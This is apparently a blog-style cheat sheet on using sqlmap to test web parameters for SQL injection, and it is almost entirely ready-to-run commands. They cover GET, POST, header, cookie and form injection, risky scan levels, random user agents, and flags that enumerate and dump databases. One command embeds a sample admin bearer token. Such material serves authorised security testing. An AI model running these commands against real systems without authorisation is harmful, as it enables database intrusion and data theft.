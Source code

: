 ```yaml
---
title: "[SQL] sqlmap baisc usage"
published: 2024-04-12
description: 'Basic sqlmap usage for checking sql injection bugs'
tags: [Security, Attack]
category: Attack
draft: false
---
```


# [SQL] sqlmap
https://github.com/sqlmapproject/sqlmap

## Aim target
### Basic usage
```bash
sqlmap -u "http://localhost:8080/user.php?id=7"
```

## GET attack
### Basic usage
```bash
sqlmap -u "http://localhost:8080/user.php?id=7"
```

### With Query
```bash
sqlmap -u "http://example.com/?a=1&b=2&c=3" -p "a,b"
```

### With Parameter and with delay
```bash
sqlmap -u "http://172.23.112.1:3001/patient/lookup/a" -p "a" --tables --delay=5
```

### Perform in-depth and risky attacks
```bash
sqlmap -u "http://172.23.112.1:3001/manage" --level=3 --risk=3
```

### Enumerate DBMS database tables with `tables`
```bash
sqlmap -u "http://172.23.112.1:8080/api/v1/users/getInjections?username=Tom" -p "username" --level=3 --tables
```

### With Headers
```bash
sqlmap -u "http://172.23.112.1:3001/client/prescription-list" --level=3 --headers="Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InN1cGVyYWRtaW4iLCJzdWIiOjEsInJvbGUiOiJhZG1pbiIsImRvY3Rvcl9jb2RlIjpudWxsLCJpYXQiOjE2NjI2NDg5MTEsImV4cCI6MTY5NDE4NDkxMX0.5zjJ0fJSX_s76b5BScUBDMpDOO0GpMrnA_0L1TCu8lM"
``` 

### With cookies
```bash
sqlmap -u "http://localhost:8080/admin.php" --cookie "customerId=591edabaab5b52292042df8a"
```

## POST attack
### Basic usage
```bash
sqlmap -u "http://localhost:8080/admin.php" --data="id=1&name=admin"
sqlmap -u "http://localhost:8080/login/password" --data="username=tom&password=123"
```

### With random-agent
```bash
sqlmap -u "http://172.23.112.1:8080/login/password" --data="username=tom&password=123" --level=3 --random-agent --ignore-code 401
```

```bash
sqlmap -u "http://172.23.112.1:8080/signup" --data="username=tom&password=123&re_password=123" --level=3 --random-agent --ignore-code 401
```

## Form attack
```bash
sqlmap -u "http://localhost:8080/admin.php" --forms
```


## Basic Tag
```
Shows list: --dbs
Shows all tables: -D 'db_name' --tables
Set Url: -u 


After success to injections
Get DB Name: --dbs OR --current-db
Get Tables: --tables
Get col: --columns 
Get datas from tables: --dump 
```